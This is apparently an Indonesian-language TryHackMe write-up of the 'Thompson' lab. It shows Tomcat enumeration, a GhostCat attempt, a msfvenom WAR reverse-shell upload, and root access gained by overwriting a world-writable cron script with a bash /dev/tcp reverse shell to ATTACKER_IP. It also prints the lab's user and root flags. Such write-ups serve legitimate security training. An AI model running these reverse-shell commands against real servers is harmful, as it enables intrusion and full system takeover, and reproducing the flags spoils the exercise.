







# Thompson — TryHackMe Writeup

**Target:** Thompson  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Kategori:** Tomcat, WAR Upload, RCE, Cron Job, Privilege Escalation

---

## Recon

Dimulai dengan Rustscan untuk mencari port yang terbuka.

```bash
rustscan -b 2000 --scripts none -t 5000 -a TARGET_IP
```

Dilanjutkan dengan Nmap untuk melakukan enumerasi service pada port yang ditemukan.

```bash
nmap -sC -sV -T4 -p22,8009,8080 TARGET_IP
```



Terdapat 3 port yang terbuka. Di sini saya akan melakukan enumerasi terhadap web terlebih dahulu.

---

## Web Enumeration



Website masih menampilkan halaman default Tomcat dan versinya menunjukkan **8.5.5**.

Kemungkinan ini berkaitan dengan **CVE-2020-1938 (GhostCat)**. Dari bukti yang sudah ada, indikasinya cukup kuat karena port **8009** terekspos dan versi Tomcat yang digunakan termasuk versi yang affected.

Saya kemudian menggunakan script dari repository berikut untuk melakukan exploit:

https://github.com/xindongzhuaizhuai/CVE-2020-1938/



Karena tidak ada yang menarik dari hasil tersebut, saya coba pivot kembali ke website untuk mencari kemungkinan login page.

Di sana saya menemukan credential:



Credential tersebut berhasil digunakan untuk login.



---

## Initial Foothold — WAR Upload

Setelah berhasil login, terdapat fitur untuk melakukan upload file `.war`.

Di sini saya menggunakan `msfvenom` untuk membuat payload reverse shell.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f war -o shell.war
```

Setelah payload berhasil dibuat, saya mencoba meng-upload file tersebut dan berhasil mendapatkan reverse shell.



---

## Privilege Escalation — Cron Job

Dari enumerasi yang saya lakukan, saya menemukan `id.sh` dan `test.txt`.

Isi `id.sh`:

```bash
cat id.sh
#!/bin/bash
id > test.txt
```

Kemudian saya mengecek hasil eksekusinya:

```text
tomcat@ubuntu:/home/jack$ cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

Dari sini terlihat bahwa script tersebut dijalankan oleh **root**.

Saya kemudian menemukan bahwa script tersebut dijalankan oleh root melalui **cron job setiap 1 menit**.

```text
* * * * * root cd /home/jack && bash id.sh
```

Permission dari script tersebut adalah:

```text
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
```

Karena `id.sh` dapat ditulis oleh user yang saya kontrol, saya bisa mengganti isinya dengan reverse shell.

```bash
printf '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1"\n' > /home/jack/id.sh
```

Saya kemudian menunggu sekitar satu menit hingga cron job menjalankan script tersebut.

Root shell berhasil didapatkan.



---

## Flags

### User Flag

```text
39400c90bc683a41a8935e4719f181bf
```

### Root Flag

```text
d89d5391984c0450a95497153ae7ca3a
```

